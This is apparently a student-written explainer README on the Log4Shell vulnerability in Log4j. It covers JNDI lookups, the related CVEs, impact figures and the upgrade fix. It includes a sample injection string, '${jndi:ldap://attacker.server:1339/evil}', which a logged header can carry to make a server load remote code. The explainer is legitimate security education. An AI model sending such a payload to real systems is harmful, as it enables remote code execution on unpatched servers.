







# 🚨 Log4Shell: CVE-2021-44228 🚨


## ❓ What is Log4Shell?

The Log4Shell attack was a widespread Java exploit targeting a common logging package (Log4j) for remote code execution. It leveraged a critical vulnerability in the Log4j library, enabling attackers to execute arbitrary code remotely via crafted log messages. Despite the ubiquity of Log4j in various software frameworks and applications, the severity of this vulnerability was rated with a CVSS score of 10, indicating its critical nature.

### Why is it so important
- A popular Java library for logging error messages in applications.**That’s the irony!!!**
- Attackers can exploit the vulnerability using text messages to control a computer remotely. 
- Everyone is using it and there is no fix -> CVSS Score of **“10” CRITICAL**
- The ease of exploiting the vulnerability compounds its impact. The Log4j library controls how applications log strings of code and information. The vulnerability enables an attacker to gain control over a string and trick the application into requesting and executing malicious code under the attacker’s control. 
- Log4j logs messages from software and searches for errors afterward. The data range is broad, from basic browser and web page information to technical details about the system Log4j 2 runs on.
- Not only can the Log4j library create simple logs, but it can also execute commands to generate advanced logging information. It can also communicate with other sources, such as internal directory services.

## 📚 Background

Log4j, a Java-based logging utility, became the focus of security concerns due to its support for lookup syntax that inadvertently allowed for remote code execution through the Java Naming and Directory Interface (JNDI). This vulnerability, stemming from JNDI lookups, enabled attackers to control Log4j's log message processing, leading to the execution of malicious code.
Log4j is a Java based logging utility.
Log4j supports the lookup syntax for better string formatting. For example,
```
String lookup = "${java:os}";
logger.info("App started in OS: {}",lookup);
```
Done by implementing the corresponding Lookup class.
`16:44:47.542 [main] INFO  log4j logger - App started in OS: Mac OS X 13.3.1, architecture: aarch64-64`

Next question that arises : Is the string formatting main cause of vulnerability?

- Not really. The lookups are all predefined lookup strings. You cannot do any other things.
- But the story is different with JNDI.The Log4Shell vulnerability lies in the lookup through Java Naming and Directory Interface (JNDI).

## 🕵️‍♂️ The Vulnerability Explained
**Java Naming and Directory Interface (JNDI)**: 
Provides an API for applications to interact with various directory services, facilitating the lookup of remote objects. It's this mechanism that Log4Shell exploits.

- The Java API for naming and directory service. 
- If you have a database connection named `“java:MySqlDS”` in your Java environment.

- Other java processes on the same Java environment can lookup the connection:
```
		Object datasourceRef = context.lookup(“java:MySqlDS”);
		DataSource ds = (DataSource) datasourceRef;
		conn = ds.getConnection();
```
- Also supports DNS lookups: `${jndi:dns:cmu.edu}` to log statistics about DNS lookup.
- This is the main reason why log4j accepts JNDI. Easy to fetch and log some printable objects.The JNDILookup plugin is added to the log4j package in issue LOG4J2-313, in 2013 (version 2.0-beta9)
- JNDI has a number of service provider interfaces (SPIs) that enable it to use a variety of directory services.

**Danger! LDAP and RMI support Remote Code Execution.**
**LDAP : Lightweight Directory Access Protocol**
Through the use of JNDI with LDAP, attackers could manipulate the lookup process to execute remote code.
- Can use JNDI + LDAP to find an object containing the needed data.
- ldap://localhost:3**/o=BusinessObjectId allows application to find and invoke the BusinessObject remotely from an LDAP server running either on localhost or remote machine
- LDAP server either running on different server (in protected zone), or potentially anywhere on the Internet.
- If attacker can control the JNDI URL, they can cause the application to load and execute arbitrary Java code.



**LOG4J JndiLookup Plugin**
Enables retrieval of variables via JNDI, where specially crafted lookup strings could trigger the vulnerability.
- “The JndiLookup allows variables to be retrieved via JNDI. By default the key will be prefixed with java:comp/env/, however if the key contains a ":" no prefix will be added.”
- `${jndi:ldap://attacker.server:1339/evil}` : could be a HTTP header like User-Agent, which commonly gets logged.

## 🎯 Attack Methodology

The attack involves several steps, from the initial injection of the malicious JNDI lookup string into a vulnerable application, to the execution of arbitrary code hosted on the attacker's server. This process could lead to various malicious outcomes, such as establishing reverse shells or executing unauthorized commands on the affected server.



## 🎥 Video Demonstration
[](https://drive.google.com/file/d/1nSHfFkhpL-S6hU8LwZ-DDU9vICbSOGzM/view?usp=sharing)


## 💥 Impact and Mitigation

The widespread use of Log4j resulted in a significant impact across numerous systems and applications, with several CVEs issued to address different aspects of the vulnerability. Efforts to mitigate the issue included updating Log4j to a secure version, disabling certain features, and applying patches as they became available.

### Some CVEs 
- **CVSS Base Score:10 (12/10/2021)**
- CVE-2021-45046 enables hackers to send malicious JNDI lookups to systems that use certain non-default settings, even if those systems have fixed Log4Shell. Present in Log4j versions 2.15 and below. 

- **CVSS Base Score:5.9 (12/18/2021)**  
- CVE-2021-45105 enables hackers to launch denial-of-service attacks by sending malicious messages to Log4j. Present in Log4j versions 2.16 and below. 

- **CVSS Base Score:6.6 (12/28/2021)**
- CVE-2021-44832 is a remote code execution vulnerability. This flaw is less critical than Log4Shell because hackers need to gain elevated permissions before they can exploit it. Present in Log4j versions 2.17 and below.  

### Stats
- More than 35,000 Java packages, amounting to over 8% of the Maven Central repository

- As of December 16, 2021, 35,863 of the available Java artifacts from Maven Central depend on the affected log4j code



**Impact on Human Workforce**
- Over 800,000 exploitation attempts were detected in the first 72 hours after log4j became public implying an urgent response from security team all around the world disrupting all the security engineers.
- This also implies a significant burden and stress on the developers and maintainers of Log4j and other open source projects. 

**Monitory Impact**
- The most affect organizations where evaluated over $100M.
- Most effect industry was education  services.

**Keeping at bay**
- In November 2022, Tenable reported that 29% of the assets still vulnerable to Log4Shell were “recurrences,” meaning they were patched, but the flaw reappeared.

## Time Line 



## Fix & Remediation
1. Upgrade to the latest version of log4j. (At least >=2.15.0)
What did this fix had to offer 


## 🤔 Reflections on Log4Shell

The incident raised questions about the security of open-source frameworks and the responsibilities of developers and maintainers in ensuring the security of their software. It highlighted the importance of cautious feature support in security-critical software and the need for prompt and effective vulnerability management.


**Authors:** Aditya Sudhansu, Ziheng Yan, Jun Wen, Paras Saxena, Trevor Kann


